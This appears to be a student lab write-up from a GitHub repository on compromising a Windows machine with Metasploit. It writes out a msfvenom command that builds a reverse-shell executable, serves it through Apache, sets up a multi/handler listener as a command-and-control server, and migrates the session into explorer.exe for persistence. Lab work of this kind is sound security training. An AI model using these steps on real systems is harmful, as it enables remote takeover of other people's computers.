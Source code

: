 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


Find the attackers ip address using ifconfig



![{3424BE28-66DF-47AA-B62D-A4C3D46A49E7}](https://github.com/user-attachments/assets/d39170cb-ae83-4e56-8a8a-2d39c7364170)



Create a malicious executable file fun.exe using msfvenom command


msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![{82C3B552-FFA8-44E1-A54C-BC3D3FCE8738}](https://github.com/user-attachments/assets/b87cdb49-50a5-42d3-9381-ad0d1cc985c6)


copy the fun.exe into the apache /var/www/html folder


![{1CCEB4E8-D88B-4EA0-AB56-5497B1B366F9}](https://github.com/user-attachments/assets/2f8dee6b-7453-4ba6-bc32-0cc20c7c3f16)



Start apache server


sudo systemctl apache2 start

![{4B01427D-3EE4-49D5-B9F4-5D008690DFE5}](https://github.com/user-attachments/assets/2cb87178-558b-4759-bbf7-d42185fc3507)


Check the status of apache2


![{56B70F00-52BB-4853-B38F-B9572A436F33}](https://github.com/user-attachments/assets/99d117e3-2a0a-4201-b804-45d20a402459)


Invoke msfconsole:


![{0127CD56-6237-4EF8-916E-84EB20ED1F1C}](https://github.com/user-attachments/assets/04afa8b9-fc04-4ce8-b192-1f6091fa909e)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.



![{1701D860-73ED-40A2-8956-1C111C9715BE}](https://github.com/user-attachments/assets/8762ea2b-2997-4677-80de-0349418dc377)


Starting a command and control Server


use multi/handler


set PAYLOAD windows/meterpreter/reverse_tcp


set LHOST 0.0.0.0


exploit


![{732CC25B-2340-4B26-A4DD-A3A6F53E9B5A}](https://github.com/user-attachments/assets/2488740a-eae6-4cb7-bc98-ced2a35e38f8)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP 


address of your Kali machine:


http://192.168.1.2/fun.exe


The file "fun.exe" downloads. 


![{88B12FA3-F48D-4C84-888B-FC8E24DB9AB0}](https://github.com/user-attachments/assets/df6b2137-4570-4d70-9714-46882d54a171)




![{5C817246-750A-44B2-91E8-187FD4DD6886}](https://github.com/user-attachments/assets/2c5ee8f1-6368-4caf-a3f5-e386a498bf8c)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
